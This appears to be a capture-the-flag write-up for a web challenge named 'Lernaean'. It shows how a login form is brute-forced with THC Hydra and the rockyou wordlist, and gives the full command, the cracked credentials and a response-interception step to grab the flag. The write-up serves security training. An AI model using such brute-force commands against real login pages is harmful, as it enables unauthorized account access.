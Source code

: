 # Lernaean

## Recon (kinda) and getting in
If you do a Google search on the title of the page, the result displayed would be "Lernaean Hydra", which gives a hint on which tool to use when cracking the login page - [THC Hydra](
https://tools.kali.org/password-attacks/hydra)

The password is passed through POST method, to get the parameters intercept with Tamperdata/Burp.

The parameter is 'password', failed trial indicator is 'Invalid password!' paragraph.


From kali terminal using rockyou passwordlist:
```
hydra -l adm -P /usr/share/wordlists/rockyou.txt.gz *ip-address* -s *port* http-post-form "/:password=^PASS^:Invalid password"

Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-10-12 23:15:24
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://88.198.233.174:33610//:password=^PASS^:Invalid password
[33610][http-post-form] host: 88.198.233.174   login: adm   password: leonardo
1 of 1 target successfully completed, 1 valid password found
```
## Final step
Entering the password takes you to 'noooooooope.html' page that reads "Too late!".
The clue is to intercept a server response before it redirects to html page, which contains the flag.
